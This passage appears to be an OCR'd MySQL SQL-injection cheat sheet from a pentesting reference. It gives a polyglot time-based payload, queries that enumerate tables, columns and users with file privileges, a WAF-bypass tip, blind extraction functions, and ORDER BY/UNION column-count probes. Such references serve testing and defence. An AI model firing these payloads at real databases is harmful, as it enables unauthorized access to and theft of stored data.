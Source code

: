 ```sql
SELECT * FROM some_table WHERE double_quotes = "IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR"*/"
```

from [https://labs.detectify.com/2013/05/29/the-ultimate-sql-injection-payload/](https://labs.detectify.com/2013/05/29/the-ultimate-sql-injection-payload/)

## Flow

Remember that in "modern" versions of **MySQL** you can substitute "_**information_schema.tables**_" for "_**mysql.innodb_table_stats**_**"** (This could be useful to bypass WAFs).

```sql
SELECT table_name FROM information_schema.tables WHERE table_schema=database();#Get name of the tables
SELECT column_name FROM information_schema.columns WHERE table_name="<TABLE_NAME>"; #Get name of the columns of the table
SELECT <COLUMN1>,<COLUMN2> FROM <TABLE_NAME>; #Get values
SELECT user FROM mysql.user WHERE file_priv='Y'; #Users with file privileges
```

### **Only 1 value**

- `group_concat()`
- `Limit X,1`

### **Blind one by one**

- `substr(version(),X,1)='r'` or `substring(version(),X,1)=0x70` or `ascii(substr(version(),X,1))=112`
- `mid(version(),X,1)='5'`

### **Blind adding**

- `LPAD(version(),1...lenght(version()),'1')='asd'...`
- `RPAD(version(),1...lenght(version()),'1')='asd'...`
- `SELECT RIGHT(version(),1...lenght(version()))='asd'...`
- `SELECT LEFT(version(),1...lenght(version()))='asd'...`
- `SELECT INSTR('foobarbar', 'fo...')=1`

## Detect number of columns

Using a simple ORDER

```
order by 1
order by 2
order by 3
...
order by XXX

UniOn SeLect 1
UniOn SeLect 1,2
UniOn SeLect 1,2,3
...
```
